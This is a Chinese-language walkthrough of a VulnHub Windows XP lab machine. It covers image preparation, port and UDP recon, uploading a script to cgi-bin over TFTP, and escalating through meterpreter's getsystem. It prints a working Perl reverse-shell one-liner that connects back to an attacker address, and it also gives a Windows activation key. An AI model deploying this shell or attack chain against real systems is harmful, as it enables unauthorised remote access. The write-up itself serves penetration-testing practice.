# Prep

首先下载msdn上的xp镜像`ed2k://|file|en_winxp_pro_with_sp2.iso|615112704|B09E3519717F3968EAF16285569EA965|/`

然后打开vulnhub附件的`exe`，选择`iso`，程序能识别到系统就会向其注入靶场资源并创建新的iso



然后使用iso安装虚拟机即可，如果`vulnInjector`注入的激活码不行可以使用`JMD9T-8C93Q-MDPKT-X9HJX-B64RJ`

# Recon

这台机器开放了标准端口的`ftp`、`ssh`、`telnet`和`http`



## ftp

ftp存在匿名登录，其中有`bin、log、root`三个文件夹

但这些文件全都没有权限下载，此时考虑上传的权限



bin和log目录存储的都是静态资源，即使能够上传任意文件也大概率无法解析，并且也有极大可能不被暴露在web跟目录中

而根据root目录下的`index.html`可以判断其可能是web的根目录

很遗憾这些目录全都没有上传权限



## http

web前端是一副字符画，目录扫描无果



---

当基本的服务侦查后没有发现能深入的攻击向量，打靶需要考虑是信息收集的疏漏

## Recon udp

udp扫描，发现目标可能开放tftp



由于tftp的主旨是极简 没有遍历目录的功能 只能盲测

# shell as alex by cgi-bin perl reverse

尝试测试ftp时的几个路径文件上传，`cgi-bin`目录上传成功



访问发现报错中提示`notepad.exe`是一个gui程序，

表明上传的`1.txt`被web访问后直接被执行了，windows下默认使用notepad打开txt文件



`cgi-bin`是`Common-Gateway-Interface-Binary`即通用网关接口，这个目录下的`perl、python、ruby`脚本通常可以被直接执行

`msfvenom`使用`cmd/windows/reverse_perl`生成perl反弹shell脚本



生成后的内容类似于`python -c "{payloads}"`的反弹shell方案，而在这个cgi环境中只需要能被执行并反弹shell的perl代码

修改payload，删除`perl -MIO -e`和双引号，以及内部的`\`转义符号

由于删除了`-MIO`所以需要在代码中显式的引用`IO::Socket::INET`模块

```perl
use IO::Socket::INET;$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.2.100:9999");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;
```

将其上传后访问`cgi-bin/shell.pl`得到反弹shell



# Collecting environmental information

执行`systeminfo`收集一下系统信息，是32位系统



`msfvenom`生成exe payload，tftp使用`binary`传输模式上传`exe`



执行后获得`meterpreter`，使用`getsystem`提权


